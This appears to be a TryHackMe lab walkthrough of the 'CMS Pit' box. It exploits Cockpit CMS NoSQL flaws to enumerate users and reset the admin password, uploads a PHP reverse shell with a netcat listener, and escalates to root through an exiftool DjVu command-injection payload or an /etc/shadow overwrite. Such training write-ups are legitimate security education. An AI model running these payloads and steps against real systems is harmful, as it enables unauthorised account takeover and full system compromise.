 ```yaml
---
title: THM - CMS Pit walkthrough
author: w33vils
date: 2021-08-06 08:00:00 +0300
categories: [Walkthroughs, THM]
tags: [TryHackMe, cockpit]
---
```


# CMS PIT Walkthrough - w/o Metasploit

I was interested in documenting this box, since I used it to write my own exploit, hence the writeup. You can access the box at
> https://tryhackme.com/room/cmspit

## Scanning

We start off by running an extensive `nmap` scan. I prefer using [nmapAutomator](https://github.com/21y4d/nmapAutomator) for this.


```bash
# cat nmapAutomator_10.10.48.163_Full.txt                                             

Running a Full scan on 10.10.48.163

Host is likely running Linux

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Making a script scan on all ports
                                                         
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Only port 22 and 80 are running, so naturally, we proceed to enumerate port 80.

## Enumeration

Heading over to port 80, we find the landing page below. After basic checking of the icon, we establish this is cockpit CMS.

![](/assets/img/images/cockpit/cms.png)
_cockpit cms_

We can check the CMS's [Github Page](https://github.com/agentejo/cockpit), to enumerate files and determine the version. For instance, using the `package.json` file, we can determine the running version.

![](/assets/img/images/cockpit/version.png)

A quick google search for the CMS version, tells us the version is vulnerable to a three NoSQL vulnerabilities documented under CVE-2020-35846, CVE-2020-35847 and CVE-2020-35848. Read more about it [here](https://swarm.ptsecurity.com/rce-cockpit-cms/).

## Exploitation

Basically, the CMS does not carry out proper checks on the following methods, which allows for username extraction, and password reset, leading to full account takeover.

> /auth/check -- CVE-2020-35846

> /auth/resetpassword -- CVE-2020-35847

> /auth/newpassword -- CVE-2020-35848

Again, Swam Security have done a good job documenting it [here](https://swarm.ptsecurity.com/rce-cockpit-cms/).

At the time of writing this, I was able to get RCE on the platform using Metasploit. I however wanted to challenge myself to pwn it by writing my own python implementation exploit, and as a way to practice what I learnt from OSCP.:

I wrote this [`exploit`](https://github.com/w33vils/CVE-2020-35847_CVE-2020-35848) that allows for username enumeration, password reset token request and password reset, which leads to a full account takeover.

> https://github.com/w33vils/CVE-2020-35847_CVE-2020-35848

We can use the exploit to get details for user `skidy` as below:

```bash
┌──(root💀kali)-[~/…/c/thm/cmspit/CVE-2020-35847_CVE-2020-35848]
└─# python3 exploit.py -u http://10.10.120.242
[+] http://10.10.120.242: is reachable
[-] Attempting Username Enumeration : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : skidy
[+] Finding Password reset tokens
         Tokens Found : ['rp-285c93eea18105373be28d8e2d5f22c861102d2b04b29']
[+] Obtaining user information 
-----------------Details--------------------
         [*] user : skidy
         [*] email : <redacted
         [*] active : True
         [*] group : admin
         [*] i18n : en
         [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
         [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
         [*] name : Skidy
         [*] _modified : 1621719311
         [*] _created : 1621719311
         [*] _id : 60a9790f393037a2e400006a
         [*] _reset_token : rp-285c93eea18105373be28d8e2d5f22c861102d2b04b29
         [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------
```

Futhermore, we can reset skidy's password. But lets reset the admin's password instead. For this, we need to generate the admin's password reset token (if not already available) rerunning the code and selecting admin user will automatically generate the admin's tokens.

You can then reset the password as below:

![](/assets/img/images/cockpit/admin.png)
_Taking over the admin's account_

After this, we can log into the platform with the new credentials.

After successfully logging in as admin, we can use the `finder` utility in Cockpit, to upload a PHP reverse shell. We can use [pentest monkey's](https://github.com/pentestmonkey/php-reverse-shell) php reverse shell. Make sure to edit the IP and port that you will be listening on.

![](/assets/img/images/cockpit/finder.png)
_finder utility for uploading reverse shell_

Next, start a netcat listener on the port you configured, 443 in my case.

```bash
└─# nc -nlvp 443
listening on [any] 443 ..
```
Then, we can navigate to the reverse shell, to trigger it to get a reverse shell.

```plaintext
http://10.10.120.242/shell.php
```
We get a shell running as:

![](/assets/img/images/cockpit/shell.png)
_www-data shell_

The first flag can be found under */var/www/html/cockpit/webflag.php'*

![](/assets/img/images/cockpit/flag1.png)
_First flag_

## Privilege Escalation

Accessing user `stux`'s homepage, we get an interesting `dbshell` file. Checking it's contents, we get the second flag, as well as what looks like a password.

![](/assets/img/images/cockpit/flag2.png)
_Second flag & Password_

We try to SSH to the box as user stux, and the password, and we are successful. Subsequently, we are able to read the `user.txt` flag.

![](/assets/img/images/cockpit/user.png)
_user.txt_

Further enumeration of `sudo rights`, we notice user stux can run *exiftool* as sudo without a password.


![](/assets/img/images/cockpit/exiftool.png)

From searching exiftool CVE's on Google, we bump into this [article](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)

The blog has answers to the remaining questions:

According to the blog, we can create a file, *payload*, with the contents :

```bash
└─# cat payload 
(metadata "\c${system('/bin/bash')};")
```

Then follow the steps below:
```bash
- sudo apt install djvulibre-bin
- bzz payload payload.bzz
- djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

```

If you follow the above steps correctly, you should end up with two files as below:

![](/assets/img/images/cockpit/djvu.png)
_generated files_

We upload the `exploit.djvu` file to our victim machine. We can use a python simple server serving on port 80 for this.

```bash
─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
On our victim machine, we can use `wget` to download.

```bash
wget http://10.9.167.154/exploit.djvu
```

Finally, we run the exploit using exiftool as sudo as below to get root.

![](/assets/img/images/cockpit/priv.png)
_Running the exploit using exiftool gives us root._

### Alternative method.

You can also use [GTFOBINS](https://gtfobins.github.io/gtfobins/exiftool/) to gain root on this box.

You can follow the steps:

- First, create a backup of the */etc/shadow* file using exiftool.
- Then copy your kali's /etc/shadow to your working directory, generate a sha512 password using *mkpasswd* and replace the new hash with the root's hash.
- Upload this file on the host, and copy it onto the */etc/shadow* path.
- Finally, sudo with the new password.

## Lessons learnt

1. Constantly patching software to avoid using components with known vulnerabilities.
2. Not running exiftool as sudo, without a password.




